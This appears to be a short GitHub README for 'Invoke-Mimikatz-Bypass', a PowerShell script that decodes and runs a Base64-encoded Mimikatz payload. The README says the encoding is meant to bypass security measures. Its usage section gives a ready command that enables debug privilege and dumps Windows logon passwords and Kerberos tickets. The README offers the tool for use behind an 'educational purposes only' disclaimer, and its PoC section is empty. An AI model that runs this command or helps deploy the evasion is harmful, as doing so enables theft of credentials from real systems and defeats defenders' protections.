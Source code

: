 # Invoke-Mimikatz-Bypass
This script dynamically decodes and executes a Base64 encoded Mimikatz script, allowing users to bypass security measures and run specified Mimikatz commands.

# Usage
.\Invoke-Mimikatz-Bypass.ps1 -mimikatzCommands "privilege::debug", "sekurlsa::logonpasswords", "sekurlsa::tickets"

# Disclaimer
This script is intended for educational purposes only. The use of this script in unauthorized environments is illegal and unethical. The authors are not responsible for any misuse or damage caused by this script.

# Acknowledgments
This script incorporates parts of the Invoke-Mimikatz.ps1 script from the Nishang repository by SamratAshok. 

# PoC
